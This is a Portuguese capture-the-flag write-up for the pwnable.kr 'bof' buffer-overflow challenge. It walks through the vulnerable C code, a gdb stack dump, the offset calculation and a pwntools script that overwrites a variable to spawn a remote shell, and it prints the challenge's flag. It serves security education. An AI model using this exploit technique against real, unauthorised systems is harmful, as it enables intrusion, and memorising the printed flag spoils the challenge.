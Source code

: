 # Duckware Team - bof (pwnable)

###### Solved by @0xpics and @JoaoPedroPiceli

> This CTF is about pwn, buffer overflow

## Sobre o desafio

O objetivo deste desafio é proporcionar ao usuário uma compreensão profunda dos princípios de buffer overflow, capacitando-o a identificar e explorar vulnerabilidades por meio da análise de código. Além disso, o desafio visa fortalecer a habilidade de compreender o funcionamento de cada função do código, utilizando ferramentas como um debugger para uma investigação detalhada e prática.

## O Desafio

Para realizarmos esse desafio devemos executar um arquivo que o site nos provém, `overflowme`, além disso o site também nos deu uma porta nc 'pwnable.kr',9000

Ao executarmos recebemos a seginte mensagem: *"overflow me : "*. Testando inputs de diversos tamanhos sempre recebemos a mesma resposta: *Nah..*

Sem mais o que fazer, vamos para a análise do código.

## O Código

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Para explorar o buffer overflow neste código, o objetivo é sobrescrever o valor da variável key na função func para que ela se torne 0xcafebabe. Isso permitirá executar system("/bin/sh") e obter um shell.


* A função func tem um buffer overflowme de 32 bytes.
* A função gets é usada para ler a entrada do usuário, o que é perigoso porque não verifica o tamanho da entrada, permitindo um buffer overflow.
* O valor de key é comparado com 0xcafebabe. Se for igual, um shell é executado.

Para relaizarmos o buffer precisaremos construir um payload, ele será construido da seguinte maneira:

`payload = "A" * offset + "endereço de memória`

## Construindo o payload

Para conseguirmos o endereço de memória nos iremos converter 0xcafebabe para seu formato little-endian. Nós fazemos isso pois a shell que queremos acessar só é acessível através do valor da key 0xcafebabe assim como indicado no código, sua conversão para little-endian se dá pelo fato que a maioria dos sistemas baseados em arquiteturas x86/x86-64 armazenam valores multi-byte na memória no formato little-endian, assim sua conversão é necessária para que o sistema a interprete corretamente.

`payload = "A" * offset + "\xbe\xba\xfe\xca"`

Agora calcularemos o offset.

Para isso precisamos achar a função `0xdeadbeef` através da ferramenta `gdb`

Para facilitar a compressão de como achar a função, irei mostrar sequência de ações que deve ser tomada no gdb.

```
(kali㉿kali)-[~/Downloads]
└─$ gdb ./bof
GNU gdb (Debian 16.2-1) 16.2
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./bof...
(No debugging symbols found in ./bof)
(gdb) break func
Breakpoint 1 at 0x632
(gdb) run
Starting program: /home/kali/Downloads/bof 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x56555632 in func ()
(gdb) x/40wx $esp
0xffffcea0:     0x00000000      0xffffd18b      0x00000002      0xffffced8
0xffffceb0:     0xf7ffcfec      0x00000000      0x00000014      0x00000000
0xffffcec0:     0xf7fc6570      0xf7fc6000      0x00000000      0x00000000
0xffffced0:     0x00000000      0x00000000      0xffffffff      0xf7d79994
0xffffcee0:     0xf7fc0400      0x00000000      0xffffcf08      0x5655569f
0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000
0xffffcf00:     0x00000000      0x00000000      0x00000000      0xf7d8cd43
0xffffcf10:     0x00000001      0xffffcfc4      0xffffcfcc      0xffffcf30
0xffffcf20:     0xf7f9de14      0x5655568a      0x00000001      0xffffcfc4
0xffffcf30:     0xf7f9de14      0x565556b0      0xf7ffcb60      0x00000000
(gdb)
```

1. Identificando o buffer `overflowme`

O buffer `overflowme` é declarado como `char overflowme[32]` na função `func`. Ele será alocado na pilha. No despejo da pilha, o buffer começa no endereço `0xffffcebc`.

2. Identificando o valor de key

No despejo da pilha, o valor `0xdeadbeef` (que é o valor de key) aparece em `0xffffcef0`:
Copy

`0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000`

Portanto, `key` está localizado em `0xffffcef0`.

3. Calculando o offset

O buffer `overflowme` começa em `0xffffcebc`. O valor de key está em `0xffffcef0`. Para calcular o offset, subtraímos os endereços:

`0xffffcef0 - 0xffffcebc = 0x34 (52 em decimal)`

Portanto, o buffer `overflowme` tem 32 bytes, mas o valor de `key` está a 52 bytes do início do buffer. Isso significa que há um espaço adicional de 20 bytes entre o final do buffer e o valor de key.

4. Criando o payload

Para sobrescrever key com 0xcafebabe, precisamos preencher o buffer overflowme (32 bytes) e os 20 bytes adicionais, totalizando 52 bytes.

O payload será:

`payload = "A" * 52 + "\xbe\xba\xfe\xca"`

## Solução

Existem várias maneiras para executar esse payload, porém a que usaremos aqui será através de um script simples de python.

```
from pwn import *

payload = "A" * 52 + "\xbe\xba\xfe\xca"
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```

1.O script cria um payload que explora o buffer overflow no servidor.

2.Conecta-se ao servidor pwnable.kr na porta 9000.

3.Envia o payload para o servidor.

4.Se o payload estiver correto, o servidor executará system("/bin/sh"), e o script entrará em modo interativo, permitindo que você execute comandos no servidor.

Quando executamos esse script conseguirmos ter acesso a shell, explorando um pouco conseguimos achar o arquivo da flag, que quando damos um cat nela nos dá essa flag:

>daddy, I just pwned a buFFer :)
